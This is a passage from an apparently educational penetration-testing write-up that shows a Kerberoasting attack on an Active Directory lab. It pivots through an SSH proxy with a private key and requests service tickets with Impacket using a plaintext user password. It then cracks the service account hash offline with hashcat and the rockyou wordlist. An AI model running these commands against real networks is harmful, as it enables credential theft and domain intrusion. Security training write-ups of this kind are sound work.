 Now, we can reestablish the proxy using the `tproxy` method as part of our setup. This will enable the necessary communication for the clock synchronization.

```
sshuttle -r node-api@192.168.57.8 10.10.24.0/24 --ssh-cmd "ssh -i ./id_rsa" --method=tproxy -v
```

Once the proxy is set up, we can proceed to send UDP clock synchronization packets to the Domain Controller and receive its current time.

```
rdate -n 10.10.24.250
```

## Impacket

In order to extract the hashes from TGS, we will make use of the impacket library.

```
git clone https://github.com/fortra/impacket.git
cd impacket
pip3 install -r requirements.txt 
```

Once the Impacket library is installed, we can make use of its `examples` scripts to obtain user Service Account Ticket Granting Service (TGS) tickets.

```
./GetUserSPNs.py -request -dc-ip 10.10.24.250 'democorp.com/j.arnold:F4ll2023!' 
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/16.png)

## We have obtained the service account hash

We can crack the obtained hash offline using a tool like **hashcat**. To do this, we will save the hash to a file on our host machine and crack it on our host to ensure we use a machine with GPU for faster processing.

For this cracking attempt, we'll utilize the `rockyou` wordlist in combination with a set of rules that dynamically modify candidate passwords. This approach enhances the chances of cracking passphrases that were not originally in the wordlist.

Additionally, for optimized performance, we can take advantage of a custom kernel, which can be compiled using the `-O` switch. This can further enhance the efficiency of our password cracking process.

The ruleset used during this attempt is https://github.com/stealthsploit/OneRuleToRuleThemStill

```
PS E:\hash\hashcat-6.2.3> .\hashcat.exe -m 13100 ..\badgesvc.txt ..\rockyou.txt -r .\rules\NSA.rule -O
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/17.png)

## Password cracked
